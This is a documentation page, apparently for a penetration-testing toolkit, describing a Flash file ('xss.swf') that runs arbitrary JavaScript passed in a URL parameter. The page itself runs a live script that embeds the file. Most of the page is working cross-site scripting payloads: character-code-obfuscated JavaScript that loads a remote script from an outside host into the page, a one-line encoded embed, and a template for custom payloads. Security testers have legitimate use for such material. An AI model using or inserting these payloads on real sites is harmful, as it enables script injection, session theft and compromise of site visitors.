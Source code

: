 # [XSS](/xss/) / xss.swf

## Requirements

- You'll need to enable flash :D [chrome](https://support.digication.com/hc/en-us/articles/115003963468-Enabling-Flash-for-Google-Chrome-Windows-Macintosh-)

## Examples
**If data shows up here after the 1 second delay, that means the JS was executed.**
<pre id="xss-console-log"></pre>

<script>
(function () {
  let payload = `String.fromCharCode(${"var s=document.createElement('script'); s.src='https://defektive.github.io/xss/dist/xss.js'; document.body.appendChild(s)".split('').map(function (e){return e.charCodeAt(0)}).join(',')})`

  let t = new Date().getTime();

  let embed = document.createElement('embed');
  embed.setAttribute('height', '6');
  embed.setAttribute('width', '6');
  embed.setAttribute('allowscriptaccess', 'always');
  embed.setAttribute('src', 'https://defektive.github.io/xss/dist/xss.swf?t='+t + '&p='+ payload);

  document.body.appendChild(embed);
})();
</script>

---
### Example used here

```html
<script>
(function () {
  let payload = `String.fromCharCode(${"var s=document.createElement('script'); s.src='https://defektive.github.io/xss/dist/xss.js'; document.body.appendChild(s)".split('').map(function (e){return e.charCodeAt(0)}).join(',')})`

  let t = new Date().getTime();

  let embed = document.createElement('embed');
  embed.setAttribute('height', '400');
  embed.setAttribute('width', '400');
  embed.setAttribute('allowscriptaccess', 'always');
  embed.setAttribute('src', 'https://defektive.github.io/xss/dist/xss.swf?t='+t + '&p='+ payload);

  document.body.appendChild(embed);
})();
</script>
```

### Super Simple Example
```html

<embed height="400" width="400" allowscriptaccess="always" src="https://defektive.github.io/xss/dist/xss.swf?t=1548861488287&amp;p=String.fromCharCode(118,97,114,32,115,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,32,115,46,115,114,99,61,39,104,116,116,112,115,58,47,47,100,101,102,101,107,116,105,118,101,46,103,105,116,104,117,98,46,105,111,47,120,115,115,47,100,105,115,116,47,120,115,115,46,106,115,39,59,32,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,115,41)">


```

## Custom Payloads

You should be able to set the `p` parameter to whatever js you want. Here is a snippet you can modify.

```js

String.fromCharCode(${"console.log('hello from the params')".split('').map(function (e){return e.charCodeAt(0)}).join(',')})

```

## Want to build your own?

Should be as simple as running `docker/build.sh`. This will compile a swf from `src/xss.as`, and save it as `dist/xss.swf`

